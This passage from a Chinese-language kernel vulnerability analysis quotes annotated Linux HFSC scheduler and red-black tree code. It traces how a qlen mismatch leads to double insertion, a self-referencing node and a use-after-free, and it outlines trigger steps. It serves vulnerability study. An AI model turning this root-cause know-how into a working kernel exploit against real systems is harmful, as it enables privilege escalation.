        if (notify && cops->qlen_notify) {
            cl = cops->find(sch, parentid);
            cops->qlen_notify(sch, cl);
        }

        /* 调整父 qdisc 的 qlen 与 backlog
         * n=0 时父 qlen 不变；len 为负时 backlog 实际增加
         * 这正是父 qdisc backlog 被错误增加的原因
         */
        sch->q.qlen -= n;
        sch->qstats.backlog -= len;

        /* 递增父 qdisc 的丢弃计数，drops=0 时不变 */
        __qdisc_qstats_drop(sch, drops);
    }
    rcu_read_unlock();
}
```

`__qdisc_qstats_drop()` 的实现：

```c
static inline void __qdisc_qstats_drop(struct QDisc *sch, int count)
{
    /* 将指定数量累加到 qdisc 的丢弃统计中
     * count 通常为 n 与 0 的较大值，此处 n=0 故 count=0
     */
    sch->qstats.drops += count;
}
```

在 `pfifo_tail_enqueue()` 的调用中，`n = 0`，`len = prev_backlog - sch->qstats.backlog = 0 - skb_len = -skb_len`。因此 `qdisc_tree_reduce_backlog()` 不会改变父 qdisc 的 `qlen`（因为 `n=0`），但会将父 qdisc 的 `backlog` 减去一个负值，即增加 `skb_len`。同时，`drops = max_t(int, n, 0) = 0`，父 qdisc 的丢弃计数也不变。这意味着父 qdisc 的 `qlen` 仍然为 0，但其 `backlog` 被错误地增加了 `skb_len`。

#### 2-2-3. 父队列处理

`hfsc_enqueue()` 负责将数据包分发到叶队列，并根据返回值决定是否更新父 qdisc 的状态。

```c
static int
hfsc_enqueue(struct sk_buff *skb, struct Qdisc *sch, struct sk_buff **to_free)
{
    unsigned int len = qdisc_pkt_len(skb);   /* 获取数据包长度，用于后续初始化 */
    struct hfsc_class *cl;                   /* 目标类 */
    int err;                                 /* 返回值 */
    bool first;                              /* 叶队列此前是否为空 */

    cl = hfsc_classify(skb, sch, &err);      /* 根据 skb 分类到具体类 */
    if (cl == NULL) {
        /* 分类失败：若需绕过统计则丢弃，否则直接释放 */
        if (err & __NET_XMIT_BYPASS)
            qdisc_qstats_drop(sch);
        __qdisc_drop(skb, to_free);
        return err;
    }

    first = !cl->qdisc->q.qlen;              /* 记录叶队列此前是否为空 */
    err = qdisc_enqueue(skb, cl->qdisc, to_free); /* 调用叶队列的 enqueue */
    if (unlikely(err != NET_XMIT_SUCCESS)) { /* 若叶队列返回非成功状态 */
        if (net_xmit_drop_count(err)) {      /* 若需计数丢弃 */
            cl->qstats.drops++;
            qdisc_qstats_drop(sch);
        }
        /* ★★★★★ 漏洞点 ★★★★★
         * 当叶队列返回 NET_XMIT_CN 时，直接 return err，
         * 不会执行下方的 sch->q.qlen++。
         * 子 qdisc 的 qlen 已因 qdisc_enqueue_tail 增加 1，
         * 父 qdisc 的 qlen 保持不变，父子计数偏差由此产生。
         */
        return err;
    }

    if (first) {
        /* 若叶队列此前为空，则根据类标志执行初始化 */
        if (cl->cl_flags & HFSC_RSC)
            init_ed(cl, len);                /* 实时类：插入 eligible 树 */
        if (cl->cl_flags & HFSC_FSC)
            init_vf(cl, len);                /* 公平类：插入 vttree */
        if (cl->cl_flags & HFSC_RSC)
            cl->qdisc->ops->peek(cl->qdisc); /* 隔离队首，避免头丢弃影响截止期 */
    }

    sch->qstats.backlog += len;              /* 父 qdisc 积压增加 */
    sch->q.qlen++;                           /* 父 qdisc 的 qlen 递增 */

    return NET_XMIT_SUCCESS;
}
```

关键点在于：当 `qdisc_enqueue()` 返回 `NET_XMIT_CN` 时，`hfsc_enqueue()` 在 `if (unlikely(err != NET_XMIT_SUCCESS))` 分支中直接 `return err`，**不会执行** `sch->q.qlen++`。因此父 qdisc 的 `qlen` 保持不变。与此同时，子 qdisc 的 `qlen` 因 `qdisc_enqueue_tail()` 已增加 1。父子计数偏差由此产生。

#### 2-2-4. 类变更路径

##### 2-2-4-1. 变更实现

`hfsc_change_class()` 在修改类参数时，会检查 `cl->qdisc->q.qlen != 0`，并在条件成立时进入更新路径。

```c
static int
hfsc_change_class(struct Qdisc *sch, u32 classid, u32 parentid,
                  struct nlattr **tca, unsigned long *arg,
                  struct netlink_ext_ack *extack)
{
    struct hfsc_sched *q = qdisc_priv(sch);
    struct hfsc_class *cl = (struct hfsc_class *)*arg;
    struct hfsc_class *parent = NULL;
    struct nlattr *opt = tca[TCA_OPTIONS];
    struct nlattr *tb[TCA_HFSC_MAX + 1];
    struct tc_service_curve *rsc = NULL, *fsc = NULL, *usc = NULL;
    u64 cur_time;
    int err;

    if (opt == NULL)
        return -EINVAL;

    /* 解析嵌套属性，提取 RSC、FSC、USC 参数
     * RSC 为实时服务曲线，FSC 为公平服务曲线，USC 为上层服务曲线
     */
    err = nla_parse_nested_deprecated(tb, TCA_HFSC_MAX, opt, hfsc_policy, NULL);
    if (err < 0)
        return err;

    if (tb[TCA_HFSC_RSC]) {
        rsc = nla_data(tb[TCA_HFSC_RSC]);
        if (rsc->m1 == 0 && rsc->m2 == 0)
            rsc = NULL;   /* 空曲线视为未指定，忽略该参数 */
    }

    if (tb[TCA_HFSC_FSC]) {
        fsc = nla_data(tb[TCA_HFSC_FSC]);
        if (fsc->m1 == 0 && fsc->m2 == 0)
            fsc = NULL;
    }

    if (tb[TCA_HFSC_USC]) {
        usc = nla_data(tb[TCA_HFSC_USC]);
        if (usc->m1 == 0 && usc->m2 == 0)
            usc = NULL;
    }

    if (cl != NULL) {
        int old_flags;

        /* 校验父类关系：若指定 parentid，则必须与现有父类一致 */
        if (parentid) {
            if (cl->cl_parent &&
                cl->cl_parent->cl_common.classid != parentid)
                return -EINVAL;
            if (cl->cl_parent == NULL && parentid != TC_H_ROOT)
                return -EINVAL;
        }
        cur_time = psched_get_time();

        if (tca[TCA_RATE]) {
            /* 更新速率估计器 */
            err = gen_replace_estimator(&cl->bstats, NULL, &cl->rate_est,
                                        NULL, true, tca[TCA_RATE]);
            if (err)
                return err;
        }

        sch_tree_lock(sch);
        old_flags = cl->cl_flags;   /* 保存旧标志，用于判断走哪条更新路径 */

        /* 根据传入参数更新服务曲线 */
        if (rsc != NULL)
            hfsc_change_rsc(cl, rsc, cur_time);
        if (fsc != NULL)
            hfsc_change_fsc(cl, fsc);
        if (usc != NULL)
            hfsc_change_usc(cl, usc, cur_time);

        /* ★★★★★ 漏洞点 ★★★★★
         * 若叶队列非空，则进入更新路径。
         * 注意：此处 qlen 可能为负值，但负值同样满足 != 0。
         * 通过前期的 qdisc 创建与删除，目标类的叶 qdisc qlen 可被放大为负值，
         * 从而在 Flow1 尚未执行 init_ed 之前，提前触发 Flow2 的 update_ed，
         * 导致 eltree_insert 被调用两次，最终形成自引用结构。
         */
        if (cl->qdisc->q.qlen != 0) {
            int len = qdisc_peek_len(cl->qdisc);   /* 窥视队首包长度 */

            if (cl->cl_flags & HFSC_RSC) {
                if (old_flags & HFSC_RSC)
                    update_ed(cl, len);            /* Flow2：先删除再插入 */
                else
                    init_ed(cl, len);              /* Flow1：首次插入 */
            }

            if (cl->cl_flags & HFSC_FSC) {
                if (old_flags & HFSC_FSC)
                    update_vf(cl, 0, cur_time);
                else
                    init_vf(cl, len);
            }
        }
        sch_tree_unlock(sch);

        return 0;
    }

    /* 新建类路径（略），与漏洞触发无直接关联 */
    return 0;
}
```

##### 2-2-4-2. 窥视长度

`qdisc_peek_len()` 负责窥视叶队列的队首数据包并返回其长度：

```c
static unsigned int
qdisc_peek_len(struct Qdisc *sch)
{
    struct sk_buff *skb;
    unsigned int len;

    skb = sch->ops->peek(sch);   /* 调用 peek 回调获取队首 skb */
    if (unlikely(skb == NULL)) {
        /* 队列为空时发出警告并返回 0
         * 该警告用于提示非工作 conserving 的 qdisc 行为异常
         */
        qdisc_warn_nonwc("qdisc_peek_len", sch);
        return 0;
    }
    len = qdisc_pkt_len(skb);    /* 提取数据包长度 */

    return len;
}
```

当子 qdisc 的 `qlen` 被错误置为非零（例如 -1 或 1）时，`cl->qdisc->q.qlen != 0` 条件成立，`hfsc_change_class()` 会调用 `qdisc_peek_len()` 并进入 `update_ed()` 或 `init_ed()`。在漏洞场景中，通过先创建 `HFSC_FSC` 标志的类再切换为 `HFSC_RSC`，可以触发 `init_ed()`，从而在 Flow1 尚未执行时提前执行一次 `eltree_insert()`。

#### 2-2-5. 红黑树插入

##### 2-2-5-1. 初始化与更新

`init_ed()` 与 `update_ed()` 分别对应首次插入与更新插入：

```c
static void
init_ed(struct hfsc_class *cl, unsigned int next_len)
{
    u64 cur_time = psched_get_time();

    /* 更新截止期曲线：根据实时服务曲线与当前累计量计算新的截止期 */
    rtsc_min(&cl->cl_deadline, &cl->cl_rsc, cur_time, cl->cl_cumul);

    /* 更新 eligible 曲线：凹曲线时等于截止期曲线
     * 凸曲线时使用斜率为 m2 的线性曲线，dx 与 dy 置零
     */
    cl->cl_eligible = cl->cl_deadline;
    if (cl->cl_rsc.sm1 <= cl->cl_rsc.sm2) {
        cl->cl_eligible.dx = 0;
        cl->cl_eligible.dy = 0;
    }

    /* 计算 eligible 时间与截止期时间
     * cl_e 用于红黑树排序，cl_d 用于后续调度决策
     */
    cl->cl_e = rtsc_y2x(&cl->cl_eligible, cl->cl_cumul);
    cl->cl_d = rtsc_y2x(&cl->cl_deadline, cl->cl_cumul + next_len);

    eltree_insert(cl);   /* 插入 eligible 红黑树 */
}

static void
update_ed(struct hfsc_class *cl, unsigned int next_len)
{
    /* 重新计算 eligible 时间与截止期时间
     * 与 init_ed 不同的是，update_ed 不重新初始化曲线，仅更新数值
     */
    cl->cl_e = rtsc_y2x(&cl->cl_eligible, cl->cl_cumul);
    cl->cl_d = rtsc_y2x(&cl->cl_deadline, cl->cl_cumul + next_len);

    eltree_update(cl);   /* 先删除再插入 */
}

static inline void
eltree_update(struct hfsc_class *cl)
{
    eltree_remove(cl);   /* 从红黑树中移除当前节点 */
    eltree_insert(cl);   /* 重新插入，可能改变树中位置 */
}
```

##### 2-2-5-2. 插入与链接

`eltree_insert()` 将 `cl->el_node` 插入 `sched->eligible` 红黑树：

```c
static void
eltree_insert(struct hfsc_class *cl)
{
    struct rb_node **p = &cl->sched->eligible.rb_node;
    struct rb_node *parent = NULL;
    struct hfsc_class *cl1;

    /* ★★★★★ 漏洞点 ★★★★★
     * 下面这个循环沿红黑树查找插入位置，按 cl_e 排序。
     * 关键在于：函数不检查节点是否已经在树中。
     * 当 Flow2 提前执行一次插入后，Flow1 再次调用本函数，
     * 同一个 el_node 会被第二次插入，导致 rb_link_node 覆盖
     * 第一次设置的父指针与左右子指针，最终形成自引用环。
     */
    while (*p != NULL) {
        parent = *p;
        cl1 = rb_entry(parent, struct hfsc_class, el_node);
        if (cl->cl_e >= cl1->cl_e)
            p = &parent->rb_right;   /* 大于等于则向右 */
        else
            p = &parent->rb_left;    /* 小于则向左 */
    }
    rb_link_node(&cl->el_node, parent, p);   /* 链接节点到叶位置 */
    rb_insert_color(&cl->el_node, &cl->sched->eligible); /* 红黑树平衡 */
}
```

`rb_link_node()` 是插入的第一步，它设置节点的父指针与左右子指针：

```c
static inline void rb_link_node(struct rb_node *node, struct rb_node *parent,
                                struct rb_node **rb_link)
{
    /* 设置父指针与颜色：初始为红色，颜色位为 0
     * __rb_parent_color 的低两位用于颜色与标志，父指针需对齐
     */
    node->__rb_parent_color = (unsigned long)parent;
    /* 左右子指针置空 */
    node->rb_left = node->rb_right = NULL;

    /* 将父节点（或树根）的对应指针指向新节点
     * rb_link 指向父节点的 rb_left/rb_right 或树根的 rb_node
     */
    *rb_link = node;
}
```

##### 2-2-5-3. 着色与平衡

`rb_insert_color()` 调用 `__rb_insert()` 进行红黑树平衡：

```c
void rb_insert_color(struct rb_node *node, struct rb_root *root)
{
    __rb_insert(node, root, dummy_rotate);
}

static __always_inline void
__rb_insert(struct rb_node *node, struct rb_root *root,
            void (*augment_rotate)(struct rb_node *old, struct rb_node *new))
{
    struct rb_node *parent = rb_red_parent(node), *gparent, *tmp;

    while (true) {
        /* 若父节点为空，则当前节点为根，染黑并结束 */
        if (unlikely(!parent)) {
            rb_set_parent_color(node, NULL, RB_BLACK);
            break;
        }

        /* 若父节点为黑色，无需调整，红黑树性质满足 */
        if (rb_is_black(parent))
            break;

        gparent = rb_red_parent(parent);   /* 祖父节点 */

        tmp = gparent->rb_right;
        if (parent != tmp) {    /* parent == gparent->rb_left */
            if (tmp && rb_is_red(tmp)) {
                /* 情况 1：叔叔节点为红色，进行颜色翻转
                 * 父节点与叔叔节点染黑，祖父节点染红，然后以祖父节点继续向上调整
                 */
                rb_set_parent_color(tmp, gparent, RB_BLACK);
                rb_set_parent_color(parent, gparent, RB_BLACK);
                node = gparent;
                parent = rb_parent(node);
                rb_set_parent_color(node, parent, RB_RED);
                continue;
            }

            tmp = parent->rb_right;
            if (node == tmp) {
                /* 情况 2：叔叔为黑且当前节点是父节点的右孩子，左旋父节点
                 * 旋转后当前节点成为父节点，原父节点成为左孩子
                 */
                tmp = node->rb_left;
                WRITE_ONCE(parent->rb_right, tmp);
                WRITE_ONCE(node->rb_left, parent);
                if (tmp)
                    rb_set_parent_color(tmp, parent, RB_BLACK);
                rb_set_parent_color(parent, node, RB_RED);
                augment_rotate(parent, node);
                parent = node;
                tmp = node->rb_right;
            }

            /* 情况 3：叔叔为黑且当前节点是父节点的左孩子，右旋祖父节点
             * 旋转后父节点成为新的子树根，祖父节点成为右孩子
             */
            WRITE_ONCE(gparent->rb_left, tmp);
            WRITE_ONCE(parent->rb_right, gparent);
            if (tmp)
                rb_set_parent_color(tmp, gparent, RB_BLACK);
            __rb_rotate_set_parents(gparent, parent, root, RB_RED);
            augment_rotate(gparent, parent);
            break;
        } else {
            tmp = gparent->rb_left;
            if (tmp && rb_is_red(tmp)) {
                /* 情况 1：颜色翻转，对称处理 */
                rb_set_parent_color(tmp, gparent, RB_BLACK);
                rb_set_parent_color(parent, gparent, RB_BLACK);
                node = gparent;
                parent = rb_parent(node);
                rb_set_parent_color(node, parent, RB_RED);
                continue;
            }

            tmp = parent->rb_left;
            if (node == tmp) {
                /* 情况 2：右旋父节点 */
                tmp = node->rb_right;
                WRITE_ONCE(parent->rb_left, tmp);
                WRITE_ONCE(node->rb_right, parent);
                if (tmp)
                    rb_set_parent_color(tmp, parent, RB_BLACK);
                rb_set_parent_color(parent, node, RB_RED);
                augment_rotate(parent, node);
                parent = node;
                tmp = node->rb_left;
            }

            /* 情况 3：左旋祖父节点 */
            WRITE_ONCE(gparent->rb_right, tmp);
            WRITE_ONCE(parent->rb_left, gparent);
            if (tmp)
                rb_set_parent_color(tmp, gparent, RB_BLACK);
            __rb_rotate_set_parents(gparent, parent, root, RB_RED);
            augment_rotate(gparent, parent);
            break;
        }
    }
}
```

##### 2-2-5-4. 父指针与旋转

`rb_set_parent_color()` 直接写入 `__rb_parent_color` 字段：

```c
static inline void rb_set_parent_color(struct rb_node *rb,
                                       struct rb_node *p, int color)
{
    /* ★★★★★ 漏洞点 ★★★★★
     * 下面这行将父指针与颜色合并写入 __rb_parent_color。
     * 在双重插入场景中，该写入被引导至同一节点，
     * 最终使 __rb_parent_color 指向节点自身，形成自引用。
     */
    rb->__rb_parent_color = (unsigned long)p + color;
}
```

`__rb_rotate_set_parents()` 用于旋转时更新父子关系：

```c
static inline void
__rb_rotate_set_parents(struct rb_node *old, struct rb_node *new,
                        struct rb_root *root, int color)
{
    struct rb_node *parent = rb_parent(old);
    new->__rb_parent_color = old->__rb_parent_color;   /* 继承旧节点的父指针与颜色 */
    rb_set_parent_color(old, new, color);              /* 旧节点成为新节点的孩子 */
    __rb_change_child(old, new, parent, root);          /* 更新父节点或树根的指针 */
}
```

`__rb_change_child()` 更新父节点或树根的指针：

```c
static inline void
__rb_change_child(struct rb_node *old, struct rb_node *new,
                  struct rb_node *parent, struct rb_root *root)
{
    if (parent) {
        /* 若父节点存在，根据 old 是左孩子还是右孩子更新对应指针 */
        if (parent->rb_left == old)
            WRITE_ONCE(parent->rb_left, new);
        else
            WRITE_ONCE(parent->rb_right, new);
    } else
        /* 否则 old 为树根，更新树根指针 */
        WRITE_ONCE(root->rb_node, new);
}
```

##### 2-2-5-5. 遍历与替换

红黑树还提供了遍历与替换的辅助函数：

```c
struct rb_node *rb_first(const struct rb_root *root)
{
    struct rb_node *n;

    n = root->rb_node;
    if (!n)
        return NULL;
    /* 一直向左走到最左节点，即中序遍历的第一个节点 */
    while (n->rb_left)
        n = n->rb_left;
    return n;
}

struct rb_node *rb_last(const struct rb_root *root)
{
    struct rb_node *n;

    n = root->rb_node;
    if (!n)
        return NULL;
    /* 一直向右走到最右节点，即中序遍历的最后一个节点 */
    while (n->rb_right)
        n = n->rb_right;
    return n;
}

struct rb_node *rb_next(const struct rb_node *node)
{
    struct rb_node *parent;

    if (RB_EMPTY_NODE(node))
        return NULL;

    /* 若有右子树，则后继为右子树的最左节点 */
    if (node->rb_right) {
        node = node->rb_right;
        while (node->rb_left)
            node = node->rb_left;
        return (struct rb_node *)node;
    }

    /* 否则向上查找，直到当前节点是父节点的左孩子
     * 此时父节点即为后继
     */
    while ((parent = rb_parent(node)) && node == parent->rb_right)
        node = parent;

    return parent;
}

struct rb_node *rb_prev(const struct rb_node *node)
{
    struct rb_node *parent;

    if (RB_EMPTY_NODE(node))
        return NULL;

    /* 若有左子树，则前驱为左子树的最右节点 */
    if (node->rb_left) {
        node = node->rb_left;
        while (node->rb_right)
            node = node->rb_right;
        return (struct rb_node *)node;
    }

    /* 否则向上查找，直到当前节点是父节点的右孩子 */
    while ((parent = rb_parent(node)) && node == parent->rb_left)
        node = parent;

    return parent;
}

void rb_replace_node(struct rb_node *victim, struct rb_node *new,
                     struct rb_root *root)
{
    struct rb_node *parent = rb_parent(victim);

    /* 复制 victim 的指针与颜色到 new */
    *new = *victim;

    /* 更新周围节点的父指针 */
    if (victim->rb_left)
        rb_set_parent(victim->rb_left, new);
    if (victim->rb_right)
        rb_set_parent(victim->rb_right, new);
    __rb_change_child(victim, new, parent, root);
}

void rb_replace_node_rcu(struct rb_node *victim, struct rb_node *new,
                         struct rb_root *root)
{
    struct rb_node *parent = rb_parent(victim);

    *new = *victim;

    if (victim->rb_left)
        rb_set_parent(victim->rb_left, new);
    if (victim->rb_right)
        rb_set_parent(victim->rb_right, new);

    /* RCU 版本使用 rcu_assign_pointer 更新父节点指针 */
    __rb_change_child_rcu(victim, new, parent, root);
}

static struct rb_node *rb_left_deepest_node(const struct rb_node *node)
{
    for (;;) {
        if (node->rb_left)
            node = node->rb_left;
        else if (node->rb_right)
            node = node->rb_right;
        else
            return (struct rb_node *)node;
    }
}

struct rb_node *rb_next_postorder(const struct rb_node *node)
{
    const struct rb_node *parent;
    if (!node)
        return NULL;
    parent = rb_parent(node);

    /* 若是父节点的左孩子且存在右兄弟，则下一个是右兄弟的最左后代 */
    if (parent && node == parent->rb_left && parent->rb_right) {
        return rb_left_deepest_node(parent->rb_right);
    } else
        /* 否则下一个是父节点 */
        return (struct rb_node *)parent;
}

struct rb_node *rb_first_postorder(const struct rb_root *root)
{
    if (!root->rb_node)
        return NULL;

    return rb_left_deepest_node(root->rb_node);
}
```

增强型红黑树相关辅助：

```c
static inline void
rb_insert_augmented(struct rb_node *node, struct rb_root *root,
                    const struct rb_augment_callbacks *augment)
{
    __rb_insert_augmented(node, root, augment->rotate);
}

static inline void
rb_insert_augmented_cached(struct rb_node *node,
                           struct rb_root_cached *root, bool newleft,
                           const struct rb_augment_callbacks *augment)
{
    if (newleft)
        root->rb_leftmost = node;
    rb_insert_augmented(node, &root->rb_root, augment);
}

static __always_inline struct rb_node *
rb_add_augmented_cached(struct rb_node *node, struct rb_root_cached *tree,
                        bool (*less)(struct rb_node *, const struct rb_node *),
                        const struct rb_augment_callbacks *augment)
{
    struct rb_node **link = &tree->rb_root.rb_node;
    struct rb_node *parent = NULL;
    bool leftmost = true;

    while (*link) {
        parent = *link;
        if (less(node, parent)) {
            link = &parent->rb_left;
        } else {
            link = &parent->rb_right;
            leftmost = false;
        }
    }

    rb_link_node(node, parent, link);
    augment->propagate(parent, NULL);
    rb_insert_augmented_cached(node, tree, leftmost, augment);

    return leftmost ? node : NULL;
}
```

在双重插入场景中，第二次 `rb_link_node()` 会覆盖第一次设置的 `__rb_parent_color` 与 `rb_left`/`rb_right`，而 `__rb_insert()` 中的 `rb_set_parent_color()` 进一步将 `__rb_parent_color` 设置为指向自身，最终形成自引用环。

#### 2-2-6. 红黑树删除

##### 2-2-6-1. 移除与擦除

`eltree_remove()` 通过 `rb_erase()` 将节点从红黑树中移除：

```c
static inline void
eltree_remove(struct hfsc_class *cl)
{
    rb_erase(&cl->el_node, &cl->sched->eligible);
}

void rb_erase(struct rb_node *node, struct rb_root *root)
{
    struct rb_node *rebalance;
    rebalance = __rb_erase_augmented(node, root, &dummy_callbacks);
    if (rebalance)
        ____rb_erase_color(rebalance, root, dummy_rotate);
}
```

##### 2-2-6-2. 删除平衡

`__rb_erase_augmented()` 处理被删除节点的子树情况，并调整父节点指针：

```c
static __always_inline struct rb_node *
__rb_erase_augmented(struct rb_node *node, struct rb_root *root,
                     const struct rb_augment_callbacks *augment)
{
    struct rb_node *child = node->rb_right;
    struct rb_node *tmp = node->rb_left;
    struct rb_node *parent, *rebalance;
    unsigned long pc;

    if (!tmp) {
        /* 情况 1：被删除节点至多有一个孩子（仅有右孩子或没有孩子）
         * 直接以孩子替换节点，并根据节点颜色决定是否需要重新平衡
         */
        pc = node->__rb_parent_color;
        parent = __rb_parent(pc);
        __rb_change_child(node, child, parent, root);
        if (child) {
            child->__rb_parent_color = pc;
            rebalance = NULL;
        } else
            rebalance = __rb_is_black(pc) ? parent : NULL;
        tmp = parent;
    } else if (!child) {
        /* 情况 1 的另一种形式：只有左孩子
         * 以左孩子替换节点，节点颜色直接传递给左孩子
         */
        tmp->__rb_parent_color = pc = node->__rb_parent_color;
        parent = __rb_parent(pc);
        __rb_change_child(node, tmp, parent, root);
        rebalance = NULL;
        tmp = parent;
    } else {
        /* 情况 2 与 3：有两个孩子，寻找后继节点（右子树的最左节点） */
        struct rb_node *successor = child, *child2;

        tmp = child->rb_left;
        if (!tmp) {
            /* 情况 2：后继就是右孩子 */
            parent = successor;
            child2 = successor->rb_right;

            augment->copy(node, successor);
        } else {
            /* 情况 3：后继在右子树的最左端 */
            do {
                parent = successor;
                successor = tmp;
                tmp = tmp->rb_left;
            } while (tmp);
            child2 = successor->rb_right;
            WRITE_ONCE(parent->rb_left, child2);
            WRITE_ONCE(successor->rb_right, child);
            rb_set_parent(child, successor);

            augment->copy(node, successor);
            augment->propagate(parent, successor);
        }

        tmp = node->rb_left;
        WRITE_ONCE(successor->rb_left, tmp);
        rb_set_parent(tmp, successor);

        pc = node->__rb_parent_color;
        tmp = __rb_parent(pc);
        __rb_change_child(node, successor, tmp, root);

        if (child2) {
            rb_set_parent_color(child2, parent, RB_BLACK);
            rebalance = NULL;
        } else {
            rebalance = rb_is_black(successor) ? parent : NULL;
        }
        successor->__rb_parent_color = pc;
        tmp = successor;
    }

    augment->propagate(tmp, NULL);
    return rebalance;
}
```

`____rb_erase_color()` 处理删除后的红黑树平衡：

```c
static __always_inline void
____rb_erase_color(struct rb_node *parent, struct rb_root *root,
                   void (*augment_rotate)(struct rb_node *old, struct rb_node *new))
{
    struct rb_node *node = NULL, *sibling, *tmp1, *tmp2;

    while (true) {
        /* 循环不变式：node 为黑色，且不是根 */
        sibling = parent->rb_right;
        if (node != sibling) {    /* node == parent->rb_left */
            if (rb_is_red(sibling)) {
                /* 情况 1：兄弟为红色，左旋父节点
                 * 旋转后兄弟成为新的子树根，父节点成为其左孩子
                 */
                tmp1 = sibling->rb_left;
                WRITE_ONCE(parent->rb_right, tmp1);
                WRITE_ONCE(sibling->rb_left, parent);
                rb_set_parent_color(tmp1, parent, RB_BLACK);
                __rb_rotate_set_parents(parent, sibling, root, RB_RED);
                augment_rotate(parent, sibling);
                sibling = tmp1;
            }
            tmp1 = sibling->rb_right;
            if (!tmp1 || rb_is_black(tmp1)) {
                tmp2 = sibling->rb_left;
                if (!tmp2 || rb_is_black(tmp2)) {
                    /* 情况 2：兄弟的两个孩子均为黑色，颜色翻转
                     * 兄弟染红，若父节点为红则染黑并结束，否则以父节点继续向上调整
                     */
                    rb_set_parent_color(sibling, parent, RB_RED);
                    if (rb_is_red(parent))
                        rb_set_black(parent);
                    else {
                        node = parent;
                        parent = rb_parent(node);
                        if (parent)
                            continue;
                    }
                    break;
                }
                /* 情况 3：兄弟的右孩子为黑色，左孩子为红色，右旋兄弟 */
                tmp1 = tmp2->rb_right;
                WRITE_ONCE(sibling->rb_left, tmp1);
                WRITE_ONCE(tmp2->rb_right, sibling);
                WRITE_ONCE(parent->rb_right, tmp2);
                if (tmp1)
                    rb_set_parent_color(tmp1, sibling, RB_BLACK);
                augment_rotate(sibling, tmp2);
                tmp1 = sibling;
                sibling = tmp2;
            }
            /* 情况 4：左旋父节点并翻转颜色 */
            tmp2 = sibling->rb_left;
            WRITE_ONCE(parent->rb_right, tmp2);
            WRITE_ONCE(sibling->rb_left, parent);
            rb_set_parent_color(tmp1, sibling, RB_BLACK);
            if (tmp2)
                rb_set_parent(tmp2, parent);
            __rb_rotate_set_parents(parent, sibling, root, RB_BLACK);
            augment_rotate(parent, sibling);
            break;
        } else {
            /* 对称情况：node == parent->rb_right */
            sibling = parent->rb_left;
            if (rb_is_red(sibling)) {
                /* 情况 1：右旋父节点 */
                tmp1 = sibling->rb_right;
                WRITE_ONCE(parent->rb_left, tmp1);
                WRITE_ONCE(sibling->rb_right, parent);
                rb_set_parent_color(tmp1, parent, RB_BLACK);
                __rb_rotate_set_parents(parent, sibling, root, RB_RED);
                augment_rotate(parent, sibling);
                sibling = tmp1;
            }
            tmp1 = sibling->rb_left;
            if (!tmp1 || rb_is_black(tmp1)) {
                tmp2 = sibling->rb_right;
                if (!tmp2 || rb_is_black(tmp2)) {
                    /* 情况 2：颜色翻转 */
                    rb_set_parent_color(sibling, parent, RB_RED);
                    if (rb_is_red(parent))
                        rb_set_black(parent);
                    else {
                        node = parent;
                        parent = rb_parent(node);
                        if (parent)
                            continue;
                    }
                    break;
                }
                /* 情况 3：左旋兄弟 */
                tmp1 = tmp2->rb_left;
                WRITE_ONCE(sibling->rb_right, tmp1);
                WRITE_ONCE(tmp2->rb_left, sibling);
                WRITE_ONCE(parent->rb_left, tmp2);
                if (tmp1)
                    rb_set_parent_color(tmp1, sibling, RB_BLACK);
                augment_rotate(sibling, tmp2);
                tmp1 = sibling;
                sibling = tmp2;
            }
            /* 情况 4：右旋父节点并翻转颜色 */
            tmp2 = sibling->rb_right;
            WRITE_ONCE(parent->rb_left, tmp2);
            WRITE_ONCE(sibling->rb_right, parent);
            rb_set_parent_color(tmp1, sibling, RB_BLACK);
            if (tmp2)
                rb_set_parent(tmp2, parent);
            __rb_rotate_set_parents(parent, sibling, root, RB_BLACK);
            augment_rotate(parent, sibling);
            break;
        }
    }
}

void __rb_erase_color(struct rb_node *parent, struct rb_root *root,
                      void (*augment_rotate)(struct rb_node *old, struct rb_node *new))
{
    ____rb_erase_color(parent, root, augment_rotate);
}
```

##### 2-2-6-3. 删除辅助

辅助函数 `__rb_change_child_rcu()`、`rb_set_parent()`、`rb_set_black()`、`rb_red_parent()`：

```c
static inline void
__rb_change_child_rcu(struct rb_node *old, struct rb_node *new,
                      struct rb_node *parent, struct rb_root *root)
{
    if (parent) {
        if (parent->rb_left == old)
            rcu_assign_pointer(parent->rb_left, new);
        else
            rcu_assign_pointer(parent->rb_right, new);
    } else
        rcu_assign_pointer(root->rb_node, new);
}

static inline void rb_set_parent(struct rb_node *rb, struct rb_node *p)
{
    /* 保留原颜色，仅更新父指针 */
    rb->__rb_parent_color = rb_color(rb) + (unsigned long)p;
}

static inline void rb_set_black(struct rb_node *rb)
{
    /* 将节点颜色设置为黑色 */
    rb->__rb_parent_color += RB_BLACK;
}

static inline struct rb_node *rb_red_parent(struct rb_node *red)
{
    /* 从 __rb_parent_color 中提取父指针，忽略颜色位 */
    return (struct rb_node *)red->__rb_parent_color;
}
```

在自引用状态下，`__rb_erase_augmented()` 无法正确解链，因为节点的左右子指针指向自身，父指针也指向自身。删除操作可能进一步破坏树结构，但漏洞的关键在于：`eltree_remove()` 执行后，`hfsc_class` 对象的内存被释放，而 `sched->eligible.rb_node` 仍持有指向该内存的悬空指针。

#### 2-2-7. 出队路径

##### 2-2-7-1. 出队实现

`hfsc_dequeue()` 是数据包出队路径：

```c
static struct sk_buff *
hfsc_dequeue(struct Qdisc *sch)
{
    struct hfsc_sched *q = qdisc_priv(sch);
    struct hfsc_class *cl;
    struct sk_buff *skb;
    u64 cur_time;
    unsigned int next_len;
    int realtime = 0;

    /* 若队列为空，提前返回，避免后续操作 */
    if (sch->q.qlen == 0)
        return NULL;

    cur_time = psched_get_time();

    /* 优先使用实时标准：从 eligible 树中取最小截止期的类 */
    cl = eltree_get_mindl(q, cur_time);
    if (cl) {
        realtime = 1;
    } else {
        /* 否则使用链路共享标准：从 vttree 中取最小虚拟时间的类 */
        cl = vttree_get_minvt(&q->root, cur_time);
        if (cl == NULL) {
            qdisc_qstats_overlimit(sch);
            hfsc_schedule_watchdog(sch);
            return NULL;
        }
    }

    /* 从叶队列取出数据包 */
    skb = qdisc_dequeue_peeked(cl->qdisc);
    if (skb == NULL) {
        qdisc_warn_nonwc("HFSC", cl->qdisc);
        return NULL;
    }

    bstats_update(&cl->bstats, skb);
    update_vf(cl, qdisc_pkt_len(skb), cur_time);
    if (realtime)
        cl->cl_cumul += qdisc_pkt_len(skb);

    if (cl->cl_flags & HFSC_RSC) {
        if (cl->qdisc->q.qlen != 0) {
            /* 若叶队列仍有数据，更新 eligible 时间 */
            next_len = qdisc_peek_len(cl->qdisc);
            if (realtime)
                update_ed(cl, next_len);
            else
                update_d(cl, next_len);
        } else {
            /* 类变为非活跃，从 eligible 树中移除 */
